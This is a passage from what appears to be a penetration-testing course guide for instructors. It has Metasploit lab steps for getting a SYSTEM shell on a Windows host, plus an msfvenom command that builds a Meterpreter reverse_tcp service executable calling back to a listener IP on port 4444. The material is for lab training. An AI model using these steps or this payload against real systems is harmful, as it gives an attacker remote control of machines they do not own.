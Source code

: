      ![A screenshot depicts the options set correctly.](Images/msfsettings.PNG)

6. Run the module, and you should get a shell back as SYSTEM.

**Note**: If students ask what PSExec is, we will explore it more on Day 3. For now, they just need to know that PSExec is a way of remotely administrating Windows machines. There is also a Metasploit module for it.

7. In a new terminal tab/window, generate a Meterpreter payload using `msfvenom` with the following command:

     - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe-service > service.exe`

     ![A screenshot depicts the results of the command.](Images/msfvenomservice.PNG)
